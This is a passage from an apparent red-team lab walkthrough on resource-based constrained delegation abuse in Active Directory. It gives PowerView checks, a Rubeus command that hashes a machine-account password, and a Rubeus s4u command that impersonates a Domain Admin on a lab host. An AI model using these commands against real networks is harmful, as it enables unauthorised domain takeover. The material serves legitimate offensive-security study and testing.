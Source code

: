 Once the `msDS-AllowedToActOnBehalfOfOtherIdentitity` is set, it is visible here:

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-42-18.png>)

Same can be seen this way:

```csharp
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-41-34.png>)

We can test if the security descriptor assigned to computer `ws01` in `msds-allowedtoactonbehalfofotheridentity` attribute refers to the `fake01$` machine:

```csharp
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
```

Note that the SID is referring to S-1-5-21-2552734371-813931464-1050690807-1154 which is the `fake01$` machine's SID - exactly what we want it to be:

![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-24-04.png>)

## Execution

### Generating RC4 Hash

Let's generate the RC4 hash of the password we set for the `FAKE01` computer:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-46-25.png>)

### Impersonation

Once we have the hash, we can now attempt to execute the attack by requesting a kerberos ticket for `fake01$` with ability to impersonate user `spotless` who is a Domain Admin:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:cifs/ws01.offense.local /ptt
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 23-40-45.png>)

Unfortunately, in my labs, I was not able to replicate the attack at first, even though according to rubeus, all the required kerberos tickets were created successfully - I could not gain remote admin on the target system `ws01`:

![](<../../.gitbook/assets/Screenshot from 2019-03-26 23-40-57.png>)
